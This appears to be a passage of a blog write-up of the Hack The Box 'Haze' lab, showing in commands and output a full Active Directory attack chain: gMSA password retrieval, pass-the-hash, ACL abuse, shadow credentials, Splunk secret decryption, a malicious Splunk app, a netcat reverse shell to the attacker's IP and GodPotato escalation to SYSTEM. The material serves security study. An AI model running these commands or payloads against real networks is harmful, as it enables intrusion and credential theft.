localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'
WINRM 10.10.11.61 5985 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) WINRM 10.10.11.61 5985 DC01 [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)
Active Exploitation Path: With mark.adams's credentials and WinRM access, our next objective was clear: extract gMSA passwords (given the gMSA_Managers group we identified) and potentially use them to access sensitive resources or elevate privileges further.
6. Deep Dive into Privilege Escalation (Mark.Adams & gMSA)
The BloodHound data, combined with mark.adams's successful authentication, provided the perfect blueprint for our next phase: privilege escalation. The key was the gMSA_Managers group.
BloodHound Visualization: Mark.Adams Permissions
The BloodHound visualization after the mark.adams compromise immediately highlighted crucial group memberships and potential lateral movement paths:
- MARK.ADAMS is a MemberOf:REMOTE MANAGEMENT USERS@HAZE.HTB: This group membership strongly suggests mark.adams has permissions for remote management tasks, likely via WinRM, RDP, or other management protocols on various domain machines. This aligns perfectly with our successful WinRM login.
- GMSA_MANAGERS@HAZE.HTB: This is the most critical group. Membership in GMSA_MANAGERS implies that mark.adams has privileges related to managing Group Managed Service Accounts (gMSAs), including potentially reading their passwords or controlling who can read them. This was a clear pathway to compromise gMSAs.
- DOMAIN USERS@HAZE.HTB: This is a default group for all domain user accounts.
This BloodHound data provided key insights into the potential lateral movement paths and privilege escalation opportunities available through the mark.adams account, particularly highlighting its role in gMSA management.
Enumerating gMSAs via Evil-WinRM
While in our Evil-WinRM shell as the mark.adams user, we executed the PowerShell command Get-ADServiceAccount -Filter *. This command allowed us to enumerate all Group Managed Service Accounts (gMSAs) within the Active Directory domain. The output successfully identified the Haze-IT-Backup$ gMSA, providing details such as its Distinguished Name, SamAccountName, and SID, which are crucial for targeting it in further attacks.
*Evil-WinRM* PS C:\Users> Get-ADServiceAccount -Filter *
DistinguishedName : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb Enabled : True Name : Haze-IT-Backup ObjectClass : msDS-GroupManagedServiceAccount ObjectGUID : 66f8d593-2f0b-4a56-95b4-01b326c7a780 SamAccountName : Haze-IT-Backup$ SID : S-1-5-21-323145914-28650650-2368316563-1111 UserPrincipalName :
Identifying ACLs for gMSA Password Retrieval
Next, after uploading the PowerView penetration testing toolkit, we executed the PowerShell command Find-InterestingDomainAcl. This command was used to identify interesting Active Directory Access Control Lists (ACLs), specifically filtering for those related to the GMSA_MANAGERS group. The output confirmed that the GMSA_MANAGERS group has WriteProperty rights over the ms-DS-GroupMSAMembership property of the Haze-IT-Backup$ gMSA. This confirmed that members of GMSA_MANAGERS (like mark.adams) could control who could retrieve the Haze-IT-Backup$ gMSA's password.
*Evil-WinRM* PS C:\Users> Find-InterestingDomainAcl -ResolveGUIDS | ?{$_.IdentityReferenceName -match "GMSA_MANAGERS"}
ObjectDN : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb AceQualifier : AccessAllowed ActiveDirectoryRights : WriteProperty ObjectAceType : ms-DS-GroupMSAMembership AceFlags : None AceType : AccessAllowedObject InheritanceFlags : None SecurityIdentifier : S-1-5-21-323145914-28650650-2368316563-1107 IdentityReferenceName : gMSA_Managers IdentityReferenceDomain : haze.htb IdentityReferenceDN : CN=gMSA_Managers,CN=Users,DC=haze,DC=htb IdentityReferenceClass : group
Attempting to Retrieve gMSA Password (Initial Failure)
We initially attempted to retrieve the gMSA password directly using nxc ldap, authenticating as mark.adams over LDAPS (port 636) with the --gmsa flag. However, this attempt failed.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc ldap 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
LDAP 10.10.11.61 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) LDAPS 10.10.11.61 636 DC01 [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 LDAPS 10.10.11.61 636 DC01 [*] Getting GMSA Passwords LDAPS 10.10.11.61 636 DC01 Account: Haze-IT-Backup$ NTLM:
The reason for the failure was clear: while mark.adams was in gMSA_Managers, the specific permission to retrieve the gMSA's password (via the msDS-ManagedPassword attribute) is granted via the msDS-GroupMSAMembership attribute. We needed to explicitly set mark.adams as a principal allowed to retrieve the password.
Modifying principalAllowToRetrievePassword
To rectify this, we reconnected to the domain controller via Evil-WinRM as mark.adams and executed the PowerShell command Set-ADServiceAccount. This command was used to modify the Haze-IT-Backup Group Managed Service Account (gMSA). Specifically, we granted the mark.adams user the permission to retrieve the managed password for the Haze-IT-Backup gMSA by adding mark.adams to the principalAllowToRetrievePassword attribute.
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-AdServiceAccount Haze-IT-Backup -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
# No explicit output on success, but command completes without error.
We successfully set the service account and the principalAllowToRetrieveManagedPassword for our compromised user, mark.adams.
Successful gMSA Password Retrieval
With the permissions now correctly configured, we re-ran nxc ldap with the --gmsa flag, authenticating as mark.adams. This time, after having previously modified the Haze-IT-Backup gMSA to allow mark.adams to retrieve its password, we successfully obtained the NTLM hash for the Haze-IT-Backup$ account.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc ldap 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
LDAP 10.10.11.61 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) LDAPS 10.10.11.61 636 DC01 [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 LDAPS 10.10.11.61 636 DC01 [*] Getting GMSA Passwords LDAPS 10.10.11.61 636 DC01 Account: Haze-IT-Backup$ NTLM: 4de830d1d58c14e241aff55f82ecdba1
Pass-the-Hash with Haze-IT-Backup$
With the Haze-IT-Backup$ account's NTLM hash (4de830d1d58c14e241aff55f82ecdba1), we performed a Pass-the-Hash (PtH) attack against the domain controller (DC01) at 10.10.11.61 using nxc smb. Instead of providing a cleartext password, we used the hash with the -H flag. This successfully authenticated us to the SMB service as Haze-IT-Backup$, confirming the hash's validity for access.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u Haze-IT-Backup$ -H 4de830d1d58c14e241aff55f82ecdba1
SMB 10.10.11.61 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) SMB 10.10.11.61 445 DC01 [+] haze.htb\Haze-IT-Backup$:4de830d1d58c14e241aff55f82ecdba1
7. Escalating Privileges to edward.martin
Our BloodHound analysis became even more crucial here. The Haze-IT-Backup$ account, now compromised, revealed a clear path to further privilege escalation, targeting the edward.martin user.
 The BloodHound screenshot visualized the critical relationships from the already compromised HAZE-IT-BACKUP$ account within the haze.htb domain:
It showed HAZE-IT-BACKUP$ has WriteOwner rights over the SUPPORT_SERVICES group. This is a powerful permission, allowing HAZE-IT-BACKUP$ to effectively seize control of that group.
Crucially, the SUPPORT_SERVICES group possessed the AddKeyCredentialLink and ForceChangePassword permissions over the edward.martin user account. This was the ultimate target.
Based on these critical findings, our next exploit steps were meticulously designed to leverage the WriteOwner permission to gain control over edward.martin via SUPPORT_SERVICES:
- Set WriteOwner for SUPPORT_SERVICES: Set our compromised Haze-IT-Backup$ account as the WriteOwner of the SUPPORT_SERVICES group.
- Modify WriteOwner to GenericAll: Escalate this permission to GenericAll over the SUPPORT_SERVICES group using Haze-IT-Backup$. This grants full control.
- Add Haze-IT-Backup$ to SUPPORT_SERVICES: With GenericAll control, we could now add Haze-IT-Backup$ to the SUPPORT_SERVICES group.
- Compromise edward.martin: With Haze-IT-Backup$ as a member (and thus inheriting the permissions) of SUPPORT_SERVICES, we could exploit its AddKeyCredentialLink and ForceChangePassword permissions to either create "shadow credentials" or reset the password for the edward.martin user, effectively compromising that account.
Step 1: Exploiting WriteOwner for SUPPORT_SERVICES
localhost@localhost-PC:~/ctf/hTB/labs/haze$ bloodyAD -d haze.htb --host dc01.haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 set owner Support_Services 'Haze-IT-Backup$'
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on Support_Services
Using bloodyAD, we modified the owner of the Support_Services group within the haze.htb domain. Authenticating as Haze-IT-Backup$ via its NTLM hash, we successfully set Haze-IT-Backup$ itself as the new owner of the Support_Services group. This was a preparatory step to further escalate privileges on the Support_Services group.
Step 2: Escalating to GenericAll over SUPPORT_SERVICES
localhost@localhost-PC:~/ctf/hTB/labs/haze$ bloodyAD -d haze.htb --host dc01.haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 add genericAll Support_Services Haze-IT-Backup$
[+] Haze-IT-Backup$ has now GenericAll on Support_Services
Still using bloodyAD, we granted the Haze-IT-Backup$ account GenericAll privileges over the Support_Services group. Authenticating with the Haze-IT-Backup$ account's NTLM hash, we successfully escalated the permissions of Haze-IT-Backup$ on Support_Services to full control. This was a critical step, as GenericAll allows us to perform virtually any action on the target object, including modifying its members.
Step 3: Adding Haze-IT-Backup$ to SUPPORT_SERVICES
localhost@localhost-PC:~/ctf/hTB/labs/haze$ bloodyAD -d haze.htb --host dc01.haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 add groupMember Support_Services Haze-IT-Backup$
[+] Haze-IT-Backup$ added to Support_Services
Leveraging the newly acquired GenericAll rights, we used bloodyAD to add the Haze-IT-Backup$ account as a member of the Support_Services group within the haze.htb domain. This step was crucial because Support_Services possessed specific permissions (like AddKeyCredentialLink and ForceChangePassword) over edward.martin that Haze-IT-Backup$ could now inherit and utilize. Confirmed: Haze-IT-Backup is now a member of Support_services@haze.htb.
Step 4: Shadow Credentials Attack on edward.martin
localhost@localhost-PC:~/ctf/hTB/labs/haze$ pyWhisker.py -action add -dc-ip 10.10.11.61 -target 'edward.martin' -hashes 4de830d1d58c14e241aff55f82ecdba1 -user 'Haze-IT-Backup$' -output-file edward_martin.pfx
pyWhisker v1.0.0 [*] Target: edward.martin [*] Action: Add Key Credential Link [*] New PFX file saved to edward_martin.pfx
With Haze-IT-Backup$ now a member of SUPPORT_SERVICES, we could exploit the AddKeyCredentialLink permission. We used the pyWhisker.py script to perform an AddKeyCredentialLink attack (Shadow Credentials) against the edward.martin user account. Authenticating to the domain controller (10.10.11.61) as Haze-IT-Backup$ using its NTLM hash, we successfully added a new key credential to edward.martin's account. This new credential was saved to edward_martin.pfx, allowing us to impersonate or authenticate as edward.martin without knowing their actual password.
Extracting edward.martin's NTLM Hash
localhost@localhost-PC:~/ctf/hTB/labs/haze$ python3 getnthash.py -key 4f7d504960ab0f006d39cf7b2a6278c59838e7b50d9b5f44291df694d4a2d972 haze.htb/edward.martin
[*] Using TGT from cache [*] Requesting ticket to self with PAC Recovered NT Hash 09e0b3eeb2e7a6b0d419e9ff8f4d91af
To fully utilize our control over edward.martin, we extracted their NTLM hash. We used the getnthash.py script (an Impacket tool) for this purpose. Providing the AES key (from the edward_martin.pfx shadow credentials), the script leveraged a Ticket Granting Ticket (TGT) from the PFX file to request a ticket to itself with PAC (Privilege Attribute Certificate) and successfully recovered edward.martin's NTLM hash: 09e0b3eeb2e7a6b0d419e9ff8f4d91af. This hash could now be used for Pass-the-Hash attacks.
Pass-the-Hash with edward.martin
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
SMB 10.10.11.61 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) SMB 10.10.11.61 445 DC01 [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af
With edward.martin's NTLM hash, we performed a Pass-the-Hash (PtH) attack against the domain controller (DC01) at 10.10.11.61 using nxc smb. Authenticating as the edward.martin user with their recovered NTLM hash, the [+] indicated a successful authentication to the SMB service, confirming our access as edward.martin.
Establishing edward.martin WinRM Shell
localhost@localhost-PC:~/ctf/hTB/labs/haze$ evil-winrm -i 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\edward.martin\Documents> whoami
haze\edward.martin
Finally, we successfully established an interactive WinRM shell on the domain controller (10.10.11.61) using evil-winrm. We authenticated as edward.martin by providing their NTLM hash via the -H flag. The whoami command within the shell confirmed we were operating as haze\edward.martin on the target system, granting us remote command execution capabilities.
Accessing Splunk Backup Files
*Evil-WinRM* PS C:\Backups> dir C:\Backups\Splunk
Directory: C:\Backups\splunk Mode LastWriteTime Length Name ---- ------------- ------ ---- -a---- 8/6/2024 3:22 PM 27445566 splunk_backup_2024-08-06.zip *Evil-WinRM* PS C:\Backups\splunk> download C:\Backups\Splunk\splunk_backup_2024-08-06.zip
INFO: Downloading C:\Backups\Splunk\splunk_backup_2024-08-06.zip to splunk_backup_2024-08-06.zip
While in the evil-winRM shell as edward.martin, we navigated to the C:\Backups directory. Unlike previous accounts, edward.martin had access to this directory, confirming it contained the expected Splunk application backup. We listed the contents of C:\Backups\Splunk and identified a zip file named splunk_backup_2024-08-06.zip. We then initiated the download of this zip file, anticipating it contained valuable data, potentially including more credentials.
Analyzing splunk.secret Files
localhost@localhost-PC:~/ctf/hTB/labs/haze$ cat splunk_backup_2024-08-06/Splunk/etc/auth/splunk.secret
CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
localhost@localhost-PC:~/ctf/hTB/labs/haze$ cat splunk.secret
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
Upon downloading the splunk_backup_2024-08-06.zip, we extracted its contents and immediately sought out splunk.secret files.
- The first
cat splunk.secretcommand showed asplunk.secretfile from the newly downloaded Splunk backup (~/ctf/hTB/labs/haze/Splunk/etc/auth/splunk.secret). - The second
cat ../../../splunk.secretcommand showed the differentsplunk.secretfile, the one obtained earlier via the Splunk Path Traversal vulnerability (CVE-2024-36991).
The purpose of checking these files was to identify the correct splunk.secret key. We previously used the original splunk.secret along with a Splunk config file to decrypt paul.taylor's password hash. Now, with the newly downloaded Splunk backup, we found a different splunk.secret file, suggesting there might be different or updated credentials within this backup that this new secret could decrypt.
Decrypting Splunk Admin Credentials
localhost@localhost-PC:~/ctf/hTB/labs/haze/splunk$ find . -type f | grep -rP '\$\d\$\S{15,}'
etc/system/README/outputs.conf.example:token=$1$/fRSBT+2APNAyCB7tlcgOyLnAtqAQFC8NI4TGA2wX4JHfN5d9g==
etc/system/README/inputs.conf.example:token = $7$ifQTPTzHD/BA8VgKvVcgO1KQAtr3N1C8S/1uK3nAKIE9dd9e9g==
etc/system/README/user-seed.conf.example:HASHED_PASSWORD = $6$TOs.jXjSRTCsfPsw$2St.t9lH9fpXd9mCEmCizWbb67gMFfBIJU37QF8wsHKSGud1QNMCuUdWkD8IFSgCZr5.W6zkjmNACGhGafQZj1
etc/passwd::admin:$6$8FRibWS3pDNoVWHU$vTW2NYea7GiZoN0nE6asP6xQsec44MlcK2ZehY5RC4xeTAz4kVVcbCkQ9xBI2c7A8VPmajczPOBjcVgccXbr9/::Administrator:admin:changeme@example.com:::19934
grep: var/lib/splunk/_introspection/db/db_1722472316_1722471805_2/1722472316-1722471805-7069930062775889648.tsidx: binary file matches
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:pass4SymmKey = $7$u538ChVu1V7V9pXEWterpsj8mxzvVORn8UdnesMP0CHaarB03fSbow==
var/run/splunk/confsnapshot/baseline_local/system/local/server.conf:sslPassword = $7$C4l4wOYleflCKJRL9l/lBJJQEBeO16syuwmsDCwft11h7QPjPH8Bog==
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
localhost@localhost-PC:~/ctf/hTB/labs/haze$ splunksecrets splunk-legacy-decrypt --splunk-secret Splunk/etc/auth/splunk.secret --hash '$1$YDz8WfhoCWmf6aTRkA+QqUI='
Decrypted password: Sp1unkadmin@2k24
We began searching the downloaded Splunk backup for potential password hashes. Based on previous knowledge that Splunk hashes often follow a specific format (starting with $ followed by a digit, another $, and then at least 15 non-whitespace characters), we used the find command combined with grep -rP (recursive, Perl regular expression) and the regex '\$\d\$\S{15,}' to locate these patterns within all files. This successfully identified several files containing hashes, including etc/passwd which contained an admin hash, and various configuration files with token, pass4SymmKey, sslPassword, and bindDNpassword entries.
Finally, we used the splunksecrets tool with the splunk-legacy-decrypt option to decrypt a password hash found in the Splunk backup. We supplied the splunk.secret file (from the downloaded backup) and the bindDNpassword ciphertext ($1$YDz8WfhoCWmf6aTRkA+QqUI=). The tool successfully decrypted the hash, revealing the cleartext password: Sp1unkadmin@2k24. This was a critical credential, likely for a Splunk service account or administrative user.
8. Final Foothold: Reverse Shell via Splunk App
While Sp1unkadmin@2k24 didn't work for other typical domain services, its power lay within the Splunk web application itself.
Understanding the Attack Vector
The decrypted Splunk credentials (Sp1unkadmin@2k24) were not valid for other common services or protocols on the box. However, based on the Splunk configuration file, these credentials were tied to the domain user Alexander.green.
Using these credentials, we successfully logged into the Splunk web application as an administrator, giving us high privileges within the application. Leveraging Splunk's app upload functionality (a common way to extend Splunk's capabilities), we crafted and uploaded a malicious app containing a reverse shell payload.
Gaining alexander.green Shell Access
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.11.61] 50000
Microsoft Windows [Version 10.0.17763.4737]
(c) 2018 Microsoft Corporation. All rights reserved.
PS C:\Users\alexander.green> whoami
haze\alexander.green
We then enumerated the permissions of the alexander.green user:
9. Privilege Escalation to SYSTEM (SeImpersonatePrivilege)
While inside the reverse shell as alexander.green, we executed whoami /all to enumerate current privileges. The output confirmed that the alexander.green user possesses the SeImpersonatePrivilege (State: Enabled). This is a critical privilege that can be exploited for privilege escalation using various Potato attacks (e.g., God Potato, Juicy Potato, Rotten Potato), allowing us to impersonate higher-privileged accounts, including NT AUTHORITY\SYSTEM.
PS C:\Users\alexander.green> whoami /all
USER INFORMATION
----------------
User Name SID
=============== =========================================
haze\alexander.green S-1-5-21-...
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeMachineAccountPrivilege Add workstations to domain Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
(Alternatively, if the first command fails, you can use another command like priv from PowerSploit or similar to confirm the privilege if whoami /all isn't available or fails.)
C:\ProgramData> ./gp.exe -cmd "C:\ProgramData\nc.exe -t -e C:\Windows\System32\cmd.exe 10.10.14.90 9001"
[*] CombaseModule: 0x140732774219776
[*] DispatchTable: 0x140732776810824
[*] UseProtseqFunction: 0x140732776102720
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\05dad74e-7691-4040-931f-abd911b731a9\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00006802-0a10-ffff-0547-fd6420a25c29
[*] DCOM obj OXID: 0x94f5987e20f9f1b1
[*] DCOM obj OID: 0xb70663a5f79ee31c
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 932 Token:0x772 User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 548
We then executed the gp.exe (God Potato) tool from the C:\ProgramData directory (where we had uploaded our Netcat binary and GodPotato). This tool exploited the SeImpersonatePrivilege previously identified. The command instructed gp.exe to execute a reverse shell payload (nc.exe -t -e C:\Windows\System32\cmd.exe 10.10.14.90 9001). The output showed gp.exe successfully identified and impersonated an NT AUTHORITY\SYSTEM token, then launched the reverse shell as NT AUTHORITY\SYSTEM, indicating a successful privilege escalation to SYSTEM.
Rooting the Machine
C:\Users\Administrator\Desktop> dir
Volume in drive C has no label.
Volume Serial Number is 3985-943C
Directory of C:\Users\Administrator\Desktop
03/05/2025 06:46 PM .
03/05/2025 12:29 AM ..
07/02/2025 07:02 PM 34 root.txt
1 File(s) 34 bytes
2 Dir(s) 4,189,577,216 bytes free
After successfully escalating privileges to NT AUTHORITY\SYSTEM and receiving a new reverse shell, we navigated to the C:\Users\Administrator\Desktop directory. We then listed its contents using the dir command, which revealed the presence of the root.txt file. This confirmed successful full system compromise and allowed for the final objective of reading the root flag.
10. Conclusion
The Haze Machine engagement was a comprehensive Active Directory penetration test, demonstrating a full chain of compromise from initial reconnaissance and information gathering to full domain administrator access. This machine highlighted several common Active Directory vulnerabilities and misconfigurations, including:
- Application-level vulnerabilities (Splunk Path Traversal) leading to initial credential compromise.
- Weak machine account permissions for escalating BloodHound data collection.
- Password spraying as an effective lateral movement technique.
- Group Managed Service Account (gMSA) misconfigurations (specifically the
principalAllowToRetrievePasswordattribute). - Abuse of Active Directory ACLs (WriteOwner leading to GenericAll over groups).
- Exploitation of Windows privileges (SeImpersonatePrivilege) for final SYSTEM access.
By systematically enumerating the environment, leveraging discovered credentials, manipulating ACLs, and exploiting Windows privileges, we were able to gain full control of the domain. This walkthrough serves as a testament to the importance of continuous vigilance, comprehensive understanding of Active Directory security, and the iterative nature of penetration testing in uncovering complex attack paths.
Key Takeaways
This Haze Machine walkthrough provided several critical lessons applicable to Active Directory security and penetration testing:
- Initial Reconnaissance is Paramount: Identifying seemingly innocuous services like Splunk can reveal high-impact vulnerabilities (e.g., path traversal) that lead directly to initial access or sensitive data. Thorough port scanning and service version enumeration are non-negotiable.
- Credential Reuse is a Persistent Threat: The initial decrypted Splunk LDAP password was reusable for other domain users (Paul Taylor, Mark Adams), highlighting how a single compromise can cascade into broader network access.
- BloodHound is Your Best Friend: For complex Active Directory environments, BloodHound is indispensable for visualizing relationships, identifying dangerous ACLs, and mapping out viable attack paths that might be invisible through manual enumeration.
- Understand Active Directory Permissions and ACLs Deeply: The WriteOwner to GenericAll to AddKeyCredentialLink/ForceChangePassword chain is a sophisticated example of how subtle misconfigurations in permissions can lead to full account compromise. Understanding how these permissions cascade is crucial.
- Group Managed Service Accounts (gMSA) are High-Value Targets: gMSAs are designed for security but can become critical privilege escalation vectors if their access control (like
principalAllowToRetrievePassword) is misconfigured. Attackers will actively seek out memberships in groups likegMSA_Managers. - The Power of Machine Accounts: The ability for low-privileged users to create machine accounts can be a valuable stepping stone for gathering more comprehensive data (e.g., for BloodHound) or even for some forms of lateral movement.
- Privilege Escalation Chains are Common: Very rarely will one exploit grant immediate SYSTEM or Domain Admin. Expect to chain multiple vulnerabilities and techniques (e.g., app exploit -> WinRM access -> gMSA compromise -> AD ACL abuse -> privilege escalation to SYSTEM).
- Defense in Depth: This box demonstrates the importance of layered security. While one vulnerability was found, the subsequent steps highlight how multiple misconfigurations can be chained together for full compromise.
Want More Deep Dives into Cybersecurity Challenges?
Explore my other write-ups and posts for more insights into hacking, defense, and Active Directory security.

About Bashir Kabir Zarewa (L0C4LH057)
Bashir Kabir Zarewa is a passionate cybersecurity researcher and enthusiast. He specializes in ethical hacking, Active Directory security, and crafting comprehensive walkthroughs. Connect with him on Twitter or LinkedIn for more insights from the digital front lines.